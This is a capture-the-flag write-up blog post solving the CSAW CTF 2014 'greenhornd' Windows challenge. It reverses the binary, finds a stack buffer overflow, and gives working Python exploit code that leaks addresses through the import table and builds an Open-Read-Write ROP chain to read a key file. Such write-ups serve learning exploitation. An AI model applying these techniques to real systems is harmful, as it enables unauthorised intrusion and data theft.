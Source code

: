 ```yaml
---
layout: post
title: "CSAW CTF 2014: greenhornd Writeup"
date: 2020-09-05
tags: [x86, Pwn] 
description: The post explains how to solve the greenhornd challenge from CSAW CTF 2014. 
---
```


# Introduction

Nowadays, I'm trying to learn windows exploitation by reading the tutorials and solving tasks that recommended by open-source [seminar](https://github.com/leesh3288/WinPwn/tree/master/Seminar/2019_Winter_WinPwn) written with the Korean language (Thanks to google translate) besides other external resources. So, I decided to provide writeups for the chosen challenges existed within the seminar repository.

Consequently, I am going today to solve my first 32-bit windows pwn challenge within window10 which is greenhornd from CSAW CTF 2014 using the Open-Read-Write ROP chain to read the file named key from a remote server. Additionally, I will use [AppJailLauncher](https://www.trailofbits.com/expertise/appjaillauncher/) to launch the exe file for providing a game server experience using the following command.

> CommandLine
{:.filename}
{% highlight bash %}
AppJailLauncher.exe /network /key:key /port:9998 /timeout:30 greenhornd.exe
{% endhighlight %}


# Finding the Vulnerability

First of All, I executed the greenhornd exe, and the following text got printed to the screen which asks you to find the secret key and it suggested that you can look at strings within the binary using strings utility or IDA disassembler (sorry I will use R2 cutter xD ).

 ![img]({{'/assets/images/greenhornd/pwn1.PNG' | relative_url }}){: .center-image }*(**Figure[1]**)*

So, I started to check the strings using Cutter and find the secret password which is **GreenhornSecretPassword!!!** as appear in **Figure[2]**.

![img]({{'/assets/images/greenhornd/pwn2.PNG' | relative_url }}){: .center-image }*(**Figure[2]**)*

After inputting the secret password, a menu with the following options printed to the screen as appear in **Figure[3]**.

![img]({{'/assets/images/greenhornd/pwn3.PNG' | relative_url }}){: .center-image }*(**Figure[3]**)*

As appear in **Figure[4]**, These options are represented in the disassembly by switch table for achieving the jump to certain function based on your choice. However, I'm just interested in only two options which are **(A)SLR** and **(V)ulnerability**.

![img]({{'/assets/images/greenhornd/pwn4.PNG' | relative_url }}){: .center-image }*(**Figure[4]**)*


Let's start with the (A)SLR option, It prints text about Address Layout Randomization in windows beside give us two anonymous addresses as appear in the next figure.

![img]({{'/assets/images/greenhornd/pwn5.png' | relative_url }}){: .center-image }*(**Figure[5]**)*

So let us back to the disassembler to figure out what these two addresses. As you see inside the red-colored rectangle block within **Figure[6]**, The function **A_SLR** gets the module handle of the current process through WinApi **GetModuleHandle** which is the same as the ImageBase address of exe in memory then save ImageBase subtracted by value **0x400000** in the variable on the stack. Afterward, It sends the **ImageBase-0x400000** and the address holding it to the function **WriteAddressesToStdout** to print them respectively as appear in a blue-colored rectangle block.

![img]({{'/assets/images/greenhornd/pwn6.PNG' | relative_url }}){: .center-image }*(**Figure[6]**)*

Now we are done with **(A)SLR**, So let us start checking the **(V)urlnerability** option. As you see in the following screenshot, there is a text that asks you to input 1024 characters with some constraints in the input string.

![img]({{'/assets/images/greenhornd/pwn7.PNG' | relative_url }}){: .center-image }*(**Figure[7]**)*

Let's jump to the **Vulnerable_Function** to analyze it and check what the type of vulnerability it contains. The instructions within the red-colored block in **Figure[8]** holds responsibility for reading a string from stdin to the buffer at stack address equal to **(ebp-400h)** with a max length of **2048** characters. Therefore, The classic buffer overflow vulnerability exists as the max size of the string exceeds the size of the buffer specified for the input string which is **1024** characters. 

However, The function can exit without returning which will prevent the execution of overwritten saved return address if the string does not achieve a certain constraint. As appear in the blue-colored block which is responsible for the last-mentioned constraint, The instructions check if the **1st character** equal to **'C'** or **2nd character** equal to **'S'** or **3rd character** is equal to '**A'** or **4th character** equal to **'W'** to return otherwise the function exit without returning.

![img]({{'/assets/images/greenhornd/pwn8.PNG' | relative_url }}){: .center-image }*(**Figure[8]**)*


# Exploiting the vulnerable function

Based on previous analysis, We concluded that the **Vulnerable_Function** contains Buffer overflow vulnerability and we will exploit that vulnerability to build our Open-Read-write ROP chain. So let's define our stack layout that achieves the goal of reading the file named **key** then prints it content to stdout.

As appear in **Figure[9]**, The left-hand side represents the stack state before overflowing while The right-hand side of the diagram represents the stack layout after overflowing with appropriate values that mirror the Open-Read-Write ROP chain. 

The Blue-colored block within the following Figure represents functions/ROP Gadgets address. On the other hand, The orange blocks represent the parameters for the functions. Additionally, The grey text within the blocks represents the value of that block. 

Also, The parameters labeled with the same number as a certain function are parameters of this function. 

![img]({{'/assets/images/greenhornd/pwn9.png' | relative_url }}){: .center-image }*(**Figure[9]**)*

As you see in the previous diagram, There are missing addresses that will be needed to build our ROP chain. These values are OpenFile, ReadFile, WriteToStdout, ImageBase, and finally stack address that represents InputAddress.

As appear in **Figure[5]**, The **(A)SLR** option leak the **ImageBase-0x400000** and stack address that hold it. So, We will use them to estimate ImageBase by adding the same subtracted value. Also, InputAddress will be calculated by adding the offset(between the stack address holding **ImageBase-0x400000** and the InputAddress) which equals **0x3F4** to stack leaked address as you see in the following code snippet.

> First leakage stage in python
{:.filename}
{% highlight Python %}
def First_Leakage_Stage(conn):
 print("[x] working on First Leakage Stage...")
 try: 
  conn.sendline(b'GreenhornSecretPassword!!!')
  conn.sendline(b'A')
  conn.recvuntil("ASLR slide is: ").decode()
  line = conn.recvuntil(".").decode()
  Base_address = int(line.split(" ")[0],16)+0x400000
  InputAddress = int(line.split(" ")[8].replace(".",""),16)-0x3f4
  print("[+] First Leakage Stage succeeded... ")
  return Base_address,InputAddress
 except:
     sys.exit(0)
{% endhighlight %}


As appear in **Figure[6]**, There is a function called **WriteToStdout** that is responsible for writing to Stdout. It takes only one parameter that represents the address of string/bytes to write it to screen and it's located at address equals **ImageBase+0x14d0**.

Now we will work on leaking the addresses of **OpenFile** and **ReadFile** WinApi functions, The ReadFile is imported in the binary file which means its address saved inside IAT at address equal to **ImageBase+0x2014**.

So, Our plan will be based on overflowing the **Vulnerable_Function** to pass the IAT entry address of ReadFile function(**ImageBase+0x2014**) as a parameter to WriteToStdout As appear in **Figure[10]**.

![img]({{'/assets/images/greenhornd/pwn10.png' | relative_url }}){: .center-image }*(**Figure[10]**)*

In the following code snippet, We will receive the ReadFile Function address from Stdout. Then we will estimate the OpenFile function which equals **Readfile address + 0x35350**.

> Second leakage stage in python
{:.filename}
{% highlight Python %}
def Second_Leakage_Stage(conn,ImageBase):
 print("[x] working on Second Leakage Stage...")
 try:   
  conn.sendline(b'V')
  Payload=  b'CSAW'+b'A'*1024
  Payload+= p32(ImageBase+0x14d0) # WriteToStdout function
  Payload+= p32(ImageBase+0x1137) # ret address = vulnerable function
  Payload+= p32(ImageBase+0x2014) # import table entry that hold readfile address within Kernel32.dll
  conn.sendline(Payload)
  conn.recvuntil("with some constraints).\n\n")
  data= conn.recv(4)
  readfile = u32(data.decode())
  openfile = readfile+0x35350
  print("[+] Second Leakage Stage succeeded... ")
  return readfile,openfile
 except: 
  print("[-] Second Leakage Stage Failed... ")
  sys.exit(0)
{% endhighlight %}


Now we have all the addresses we need to construct our ROP chain that defined in **Figure[9]** and we will achieve it by using the following snippet of code.

> Constructing ROP chains
{:.filename}
{% highlight Python %}
def Open_Read_Write(conn,InputAddress,ImageBase,readfile_Fun,openfile_Fun):
 print("[x] reading key file from remote server...")   
 try:
  Payload= b'CSAW'+b'A'*1020 #Bypass condition & overflowing
  Payload+=p32(InputAddress+1056+8) # address to save the returned handle
  Payload+=p32(openfile_Fun) #address of openfile functions
  Payload+=p32(ImageBase+0x1ce8) # mov dword[ebp-8],eax gadget , eax ==> handle
  Payload+= p32(InputAddress+1248)+p32(InputAddress+1184)+p32(0) # openfile parameters , (lpname,structure,null)
  Payload+= p32(readfile_Fun) # readfile function address
  Payload+= p32(ImageBase+0x14d0) # print to screen function
  Payload+= b'b'*4 # (first parameter of readfile)random bytes which will be overwritten with handle value
  Payload+=p32(InputAddress+1084)+p32(100)+p32(0)+p32(0) # buffer+size_of_string+null+null
  Payload+= p32(ImageBase+0x128f) #exit(1) function 
  Payload+= p32(InputAddress+1084) #buffer to be printed to stdout
  Payload+= b'\x00'*100 # buffer values
  Payload+=b'c'*64 #openfile structure
  Payload+=b'key'+b'\x00' #filename
  conn.sendline(Payload)
  conn.recvuntil(".").decode() 
  print("[+] reading key file Succeeded and it contain following text:")
  print(conn.recvall().decode().split("\n")[2])
 except:
      print("[-] Failed to read file name key on remote server... ") 
      sys.exit(0)
{% endhighlight %}

The whole exploit script exists [Here](https://github.com/oviche/WindowsPwn/blob/master/greenhornd/exploit.py).






